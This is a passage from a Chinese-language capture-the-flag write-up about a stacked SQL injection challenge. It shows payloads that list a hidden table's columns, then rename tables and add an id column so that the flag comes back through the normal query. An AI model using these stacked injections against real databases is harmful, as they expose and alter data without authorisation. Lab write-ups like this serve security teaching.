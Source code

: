 对`1919810931114514`进行字段查询（注意由于`1919810931114514`是由数字组成，所以查询时需要使用反引号进行包裹）

payload：``1';show columns from `1919810931114514`;#``

<img src="CTF.assets/image-20230512234232410.png" alt="image-20230512234232410" style="zoom:50%;" />

注意：对于`show`关键字的查询，最多只能查询到字段名，无法获取具体的值。所以此时需要另外想办法

+ 由于后台处理是查询`words`且查询的是`id`。所以这里的解法之一是：通过对两张表的名字互换并为`1919810931114514`添加`id`自增长字段以达到直接通过查询得到`flag`
+ payload：``1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key;#``

